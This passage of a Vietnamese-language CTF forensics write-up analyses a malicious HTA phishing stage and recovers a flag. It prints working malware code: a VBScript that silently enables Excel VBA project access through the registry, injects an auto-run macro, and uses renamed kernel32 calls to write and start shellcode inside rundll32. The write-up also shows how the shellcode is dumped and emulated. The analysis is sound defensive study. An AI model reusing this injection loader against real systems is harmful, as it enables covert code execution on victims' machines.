",-101,14,-27,-12,5,14,10,45,-74,117,95,-46,"& _
"55,-118,-119,-73,56,-118,-75,-55,5,92,-116,-"& _
"65,72,92,-85,-80,-1,-63,-102,90,-1,86,-36,"& _
"78)
    If Len(Environ(""ProgramW6432"")) > 0 Then
        sProc = Environ(""windir"") & ""\\SysWOW64\\rundll32.exe""
    Else
        sProc = Environ(""windir"") & ""\\System32\\rundll32.exe""
    End If

    res = RunStuff(sNull, sProc, ByVal 0&, ByVal 0&, ByVal 1&, ByVal 4&, ByVal 0&, sNull, sInfo, pInfo)

    rwxpage = AllocStuff(pInfo.hProcess, 0, UBound(myArray), &H1000, &H40)
    For offset = LBound(myArray) To UBound(myArray)
        myByte = myArray(offset)
        res = WriteStuff(pInfo.hProcess, rwxpage + offset, myByte, 1, ByVal 0&)
    Next offset
    res = CreateStuff(pInfo.hProcess, 0, 0, rwxpage, 0, 0, 0)
End Sub
Sub AutoOpen()
    Auto_Open
End Sub
Sub Workbook_Open()
    Auto_Open
End Sub
"
objExcel.DisplayAlerts = False
on error resume next
objExcel.Run "Auto_Open"
objWorkbook.Close False
objExcel.Quit

' Restore the registry to its old state
if action = "" then
        WshShell.RegDelete RegPath
else
        WshShell.RegWrite RegPath, action, "REG_DWORD"
end if
self.close
```

### 3.1. Phân tích

- Stage HTA không drop file trực tiếp nữa, mà tạo Excel ẩn để chạy macro trong memory.

```vbscript
Set objExcel = CreateObject("Excel.Application")
objExcel.Visible = False

Set WshShell = CreateObject("Wscript.Shell")
```

- Ngoài ra, script cố tình bật quyền truy cập VBA project bằng cách sửa registry `AccessVBOM`. Nó lấy đường dẫn registry theo version Office hiện tại, lưu lại giá trị cũ, rồi ghi `AccessVBOM = 1`:

```vbscript
RegPath = "HKEY_CURRENT_USER\Software\Microsoft\Office\" & objExcel.Version & "\Excel\Security\AccessVBOM"

WshShell.RegWrite RegPath, 1, "REG_DWORD"
```

`AccessVBOM` cho phép script can thiệp vào VBA project của Excel.

- Payload VBA thật được nhúng qua `CodeModule.AddFromString`. Script tạo workbook mới, thêm VBA component, rồi inject một đoạn macro dài vào module:

```vbscript
Set objWorkbook = objExcel.Workbooks.Add()
Set xlmodule = objWorkbook.VBProject.VBComponents.Add(1)
xlmodule.CodeModule.AddFromString "Private Type PROCESS_INFORMATION
```

- Đồng thời, macro nhúng khai báo các API injection của `kernel32`. Các function bị đổi tên thành `CreateStuff`, `AllocStuff`, `WriteStuff`, `RunStuff`, nhưng alias thật lần lượt là `CreateRemoteThread`, `VirtualAllocEx`, `WriteProcessMemory`, `CreateProcessA`:

```vb
Private Declare PtrSafe Function CreateStuff Lib ""kernel32"" Alias ""CreateRemoteThread""
Private Declare PtrSafe Function AllocStuff Lib ""kernel32"" Alias ""VirtualAllocEx""
Private Declare PtrSafe Function WriteStuff Lib ""kernel32"" Alias ""WriteProcessMemory""
Private Declare PtrSafe Function RunStuff Lib ""kernel32"" Alias ""CreateProcessA""
```

Đây là chuỗi API process injection.

- Đoạn đáng chú ý là shellcode nằm trong `myArray`:

```vb
myArray = Array(-35,-63,-65,32,86,66,126,-39,116,36,-12,91,...
```

Vì vậy để lấy payload tiếp cần convert từng phần tử `myArray` sang byte bằng `value & 0xff`, rồi dump ra artifact như `shellcode.bin`.

Lưu phần VBScript đã deob ở stage HTA thành file `stage2.hta`, rồi chạy lại tool một lần nữa để phân tích stage 2:

```bash
dockervba --deob simulate stage2.hta
```



## 4. Phân tích shellcode

Cuối cùng thu được 2 file: `addfromstring_1.vba` là macro VBA được HTA inject vào Excel thông qua `CodeModule.AddFromString`, còn `shellcode.bin` là payload shellcode được dump từ mảng `myArray` trong macro VBA.

Nghi ngờ rằng `shellcode.bin` là file self-decoding shellcode, thử check bằng `objdump` để xem đoạn stub đầu file.

```bash
objdump -D -b binary -m i386 shellcode.bin
```

Kết quả cho thấy shellcode khởi tạo key `0x7e425620`, lấy địa chỉ hiện tại bằng kỹ thuật `fnstenv/pop`, rồi XOR từng DWORD phía sau để tự giải mã payload.



Vì vậy sử dụng `scdbg` để mô phỏng shellcode. Tool này sẽ chạy shellcode trong môi trường giả lập, cho phép quan sát các API được gọi và các chuỗi được giải mã sau khi decoder stub chạy xong.

```powershell
.\scdbg.exe -f .\shellcode.bin -s 1000000
```

Trong đó `-s 1000000` là số instruction tối đa cho phép emulator chạy. Vì shellcode có đoạn tự decode và resolve API bằng vòng lặp hash nên nếu để step quá thấp, `scdbg` có thể dừng sớm trước khi payload thật được giải mã hoàn toàn.

## 5. Flag

Cuối cùng thu được flag là:

```text
HTB{g0_G3t_th3_ph1sh3R}
```


